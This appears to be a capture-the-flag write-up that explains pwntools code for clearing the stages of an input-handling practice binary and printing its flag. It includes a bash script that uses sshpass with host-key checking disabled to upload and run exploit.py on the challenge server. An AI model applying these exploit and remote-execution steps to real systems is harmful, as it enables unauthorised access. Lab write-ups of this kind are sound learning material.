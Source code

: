 ```python
with open('\x0a', 'wb') as f:
	f.write(b'\x00\x00\x00\x00')
```
* Open a file named `\x0a` (newline character) for writing in binary mode
* Write the bytes `\x00\x00\x00\x00` to the file

```python
p = process(executable='input2', 
	    argv=args, 
	    stdin=r1, stderr=r2, 
	    env={'\xde\xad\xbe\xef' :'\xca\xfe\xba\xbe'})
```
* Create a new process to run the `input2` executable
* Pass the arguments, standard input, standard error, and environment variables to the process

```python
conn = remote('localhost', 12345)
conn.sendline('\xde\xad\xbe\xef')
```
* Create a remote connection to the localhost on port `12345`
* Send the bytes `\xde\xad\xbe\xef` to the remote connection, which is expected by the program

```python
result = p.recvall()
p.close()
conn.close()
print(result.decode('utf-8'))
```
* Receive all output from the process and close the process and remote connection
* Print the result, which should contain the content of the `flag` file if all stages are cleared successfully

## shell script
* because the script needs to run on the remote server, we need to create a shell script that will run the python script
```bash
# Copy exploit.py and run it remotely
sshpass -p "$PASS" ssh -p "$PORT" -o StrictHostKeyChecking=no "$USER@$HOST" "
TMPDIR=\$(mktemp -d)
cd \"\$TMPDIR\"
for f in \$HOME/*; do
    ln -s \"\$f\" .
done
echo \$TMPDIR
exit
" > tmpdir.txt
TMPDIR=$(cat tmpdir.txt)
rm tmpdir.txt
```
* Use `sshpass` to log in to the remote server and create a temporary directory
* create symbolic links to all files in the home directory in the temporary directory
```bash
# Copy the exploit script to the remote server and execute it
sshpass -p "$PASS" scp -P "$PORT" "$LOCAL_EXPLOIT" "$USER@$HOST:$TMPDIR/exploit.py"
sshpass -p "$PASS" ssh -p "$PORT" "$USER@$HOST" "cd $TMPDIR && python exploit.py"
```
* Use `sshpass` to copy the exploit script to the remote server and execute it in the temporary directory
